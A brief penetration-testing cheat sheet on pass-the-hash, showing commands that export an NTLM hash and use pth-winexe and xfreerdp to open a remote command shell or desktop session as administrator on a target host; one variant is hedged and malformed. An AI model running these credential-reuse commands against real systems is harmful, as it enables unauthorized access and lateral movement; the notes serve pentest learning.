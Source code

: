 # Pass the hash - reusing hashes

Pass the hash (PTH) is a technique that lets the user authenticate by using a valid username and the hash, instead of the unhashed password. So if you have gotten a hold of a hash you might be able to use that hash against another system.

Pass the hash is a suite of different tools. 

## SMB

So in order to use pass the hash we first need to put the hash in a env variable using the export command:

So we will atuhenticate against a smb-service. 

```
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```
```
pth-winexe -U administrator //192.168.1.101 cmd
```
I think you can run it like this too:

```
pth-winexe -U admin/hash:has //192.168.0.101 cmd
```

## Remote Desktop


``` 
apt-get update
apt-get install freerdp-x11
```

```
xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101
```

https://www.kali.org/penetration-testing/passing-hash-remote-desktop/